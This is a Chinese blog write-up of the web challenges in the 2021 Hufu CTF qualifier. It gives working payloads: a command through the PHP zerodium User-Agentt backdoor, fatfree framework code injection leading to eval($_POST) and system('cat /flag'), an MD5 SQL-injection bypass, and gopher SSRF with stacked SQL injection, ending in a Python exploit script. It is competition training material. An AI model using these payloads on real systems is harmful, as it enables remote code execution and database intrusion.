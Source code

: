 <!--yml
category: 未分类
date: 2022-04-26 14:49:33
-->

# 2021虎符初赛Web部分题解_bfengj的博客-CSDN博客

> 来源：[https://blog.csdn.net/rfrder/article/details/115435829](https://blog.csdn.net/rfrder/article/details/115435829)

# 前言

这个WP还是直接复制粘贴的当时随手写的WP。。。太懒了别骂了呜呜呜。。。

# 签到

几天前PHP的那个后门，当时笑死我了的那个`User-Agentt`。

```
User-Agentt: zerodiumsystem("cat /flag"); 
```

# unsetme

fatfree框架，搜一下有一个漏洞符合，即3.7.1的代码注入，但是题目打不通，怀疑是因为版本的问题，下载3.7.3的fatfree看一下，主要是这部分：

```
$val=preg_replace('/^(\$hive)/','$this->hive',
   $this->compile('@hive.'.$key, FALSE));
eval('unset('.$val.');'); 
```

3.7.1版本中这样就可以直接打通

```
?a=feng);phpinfo(); 
```

但是3.7.3不行，replace那个替换不用管，不影响complie，跟进一下complie：

```
function compile($str, $evaluate=TRUE) {
    $ssstr=$str;
   return (!$evaluate)
      ? preg_replace_callback(
         '/^@(\w+)((?:\..+|\[(?:(?:[^\[\]]*|(?R))*)\])*)/',
         function($expr) {
            $str='$'.$expr[1];
            if (isset($expr[2]))
               $str.=preg_replace_callback(
                  '/\.([^.\[\]]+)|\[((?:[^\[\]\'"]*|(?R))*)\]/',
                  function($sub) {
                     $val=isset($sub[2]) ? $sub[2] : $sub[1];
                     if (ctype_digit($val))
                        $val=(int)$val;
                     $out='['.$this->export($val).']';
                     return $out;
                  },
                  $expr[2]
               );
            return $str;
         },
         $str
      ) 
```

`$str是@hive.xxxxx`，第一个正则匹配不需要管，经过测试，它的`$expr[1]`一定是hive,`$expr[2]`是一个点再拼接上传入的`$_GET['a']`。

```
'/^@(\w+)((?:\..+|\[(?:(?:[^\[\]]*|(?R))*)\])*)/' 
```

主要是第二个正则，依次把满足正则的匹配结果索引1或者2取出，然后经过var_export处理，再套上一层中括号，再依次拼接到$hive的后面。

看一下这个正则：

```
/\.([^.\[\]]+)|\[((?:[^\[\]\'"]*|(?R))*)\]/ 
```

可以匹配以点开头，然后有至少一个非点，中括号的字符串，或者是匹配以中括号包裹，中间有一些内容（这部分我没细看，因为不需要）的东西。

一开始的想法是第二部分的以中括号包裹，这部分的$sub[1]是空，因此拼接过去就是[]，然后再闭合，想着这样:

```
?a=[]);phpinfo(); 
```

但是执行的是这样：

```
unset($this->hive.['']);phpinfo(); 
```

那个点没有给去掉，报了错，看了一下这个正则的第一部分，匹配点开头，然后跟上任意非点和中括号的字符串，因此开头传一个非点和中括号的字符串，这时候分组匹配的是传入的那个字符串，比如说是1，外面再套上中括号，因此就会变成这样：

```
unset($this->hive[1]['']);phpinfo(); 
```

rce，再执行命令即可：

```
?a=1[]);eval($_POST[0]);
0=system('cat /flag'); 
```

# “慢慢做”管理系统

第一步的sql是md5的那个姿势，用ffifdyop好像不行，用129581926211651571912466741651878684928就可以了。

然后就是ssrf，根据题目的提示，这个admin.php是在内网的，因此需要ssrf来访问：`?way=127.0.0.1/admin.php`
访问到页面发现还需要登录，而且是post传参，想了一下6379的mysql无密码的可能性不大，再联想到这题出题人让我 要 慢慢做，我直接盲猜这题这里的admin.php登录是个时间盲注，幸好我猜错了，是注入不假，但是是个堆叠注入。要真是时间盲注我tm把出题人骨灰都给扬了。

注入点在username这里，就是强网杯那个堆叠注入改的，三种姿势

handler被ban了，这题用prepare没回显，所以只能用rename。
一个表是`real_admin_here_do_you_find`，另外一个表是`fake_admin`，这题利用万能密码会把整个表的数据都给弄出来，因此改表名即可。拿到管理员用户名和密码，坑点就是数据库里的那个用户名是`admin_inner`，但是应该拿`admin`来登录，我拿admin_inner来登录了1小时，真tm被恶心到了。登录后利用管理员cookie访问flag.php就可以拿到flag了。

附上EXP：

```
import requests
from urllib.parse import quote

data="""POST /admin.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=3515604k1sh161ffsmerkbij23
Content-Length: {}

{}
"""

payload="username=admin&password=5fb4e07de914cfc82afb44vbaf402203"

"real_admin_here_do_you_find"
"select * from real_admin_here_do_you_find"
"admin_inner"
"5fb4e07de914cfc82afb44vbaf402203"
"""
array(2) {<br />
  [0]=><br />
  array(1) {<br />
    ["Tables_in_ctf2"]=><br />
    string(10) "fake_admin"<br />
  }<br />
  [1]=><br />
  array(1) {<br />
    ["Tables_in_ctf2"]=><br />
    string(27) "real_admin_here_do_you_find"<br />
  }<br />
}<br />
"""
length=len(payload)
data=data.format(length,payload)
data=quote(data,'utf-8')
url=""
params={
    'way':"gopher://127.0.0.1:80/_"+data
}
headers={
    'Cookie':"PHPSESSID=8t4ppbs8ek3l5v5estgbttqtu3"
}

r=requests.get(url,params=params,headers=headers)
print(r.text) 
```